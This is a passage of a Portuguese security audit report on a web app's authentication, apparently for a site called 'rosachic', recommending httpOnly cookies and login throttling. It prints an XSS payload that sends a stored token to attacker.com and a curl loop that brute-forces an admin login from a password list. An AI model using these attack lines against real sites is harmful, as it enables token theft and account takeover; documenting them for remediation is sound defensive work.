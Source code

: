 **Problema:**
```typescript
// ❌ localStorage é vulnerável a XSS
const token = localStorage.getItem('token')
```

**Impacto:**
- ✅ Se houver **qualquer vulnerabilidade XSS** no frontend, atacante rouba o token
- ✅ Token não tem expiração no cliente (apenas no servidor)
- ✅ Token persiste mesmo após fechar o navegador

**Ataque:**
```html
<!-- Se algum input não sanitizado permitir isso: -->
<img src=x onerror="fetch('https://attacker.com?token=' + localStorage.getItem('token'))">
```

**Solução:**
```typescript
// ✅ Usar httpOnly cookies (melhor opção)
// Backend:
res.cookie('token', jwtToken, {
  httpOnly: true,    // JavaScript não pode acessar
  secure: true,      // Apenas HTTPS
  sameSite: 'strict' // CSRF protection
});

// Frontend: Token enviado automaticamente, não precisa localStorage
```

---

### 14. Sem Rate Limiting em Login
**Arquivo:** `/backend/src/auth/auth.service.ts:77-110`
**Severidade:** 🟠 ALTA
**CVSS:** 7.5 (Alto)

**Problema:**
Login não tem proteção contra brute force

**Impacto:**
- ✅ **Brute force de senhas**
- ✅ Tentativas ilimitadas de login
- ✅ Credential stuffing attacks

**Ataque:**
```bash
# Atacante pode testar milhares de senhas por minuto
for pwd in $(cat common_passwords.txt); do
  curl -X POST /auth/login -d "{\"email\":\"admin@rosachic.com\",\"password\":\"$pwd\"}"
done
```

**Solução:**
```typescript
// Implementar rate limiting por IP e por email
@UseGuards(ThrottlerGuard)
@Throttle({ default: { limit: 5, ttl: 60000 } }) // 5 tentativas por minuto
@Post('login')
async login() { ... }

// Também implementar lockout após X tentativas falhas
```

---
